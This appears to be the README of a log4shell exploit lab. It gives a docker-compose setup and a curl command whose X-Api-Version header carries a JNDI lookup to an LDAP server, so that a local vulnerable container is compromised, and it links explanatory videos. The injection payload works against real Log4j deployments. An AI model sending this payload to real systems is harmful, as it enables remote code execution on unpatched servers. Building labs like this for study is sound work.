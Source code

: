 # log4shell exploit lab

This repository is a single-line setup for log4shell exploit lab.

Setup the lab: `docker-compose up -d`

Run exploit: `curl -X GET http://localhost:8080/ -H "X-Api-Version: ${jndi:ldap://my_ldap_server:1389/a}"`

Then go to `vul` container and see that indeed we pwned the machine:

![](README-resources/Screenshot%202023-11-30%20205423.png)

You can watch me explain how the exploit works, and the lab setup:

![Video explaining the lab setup](https://www.youtube.com/watch?v=WBzR30JcT5g)

And you can also watch me explain the code:

![Video explaining the code](https://www.youtube.com/watch?v=oRvp0c-fa1o)

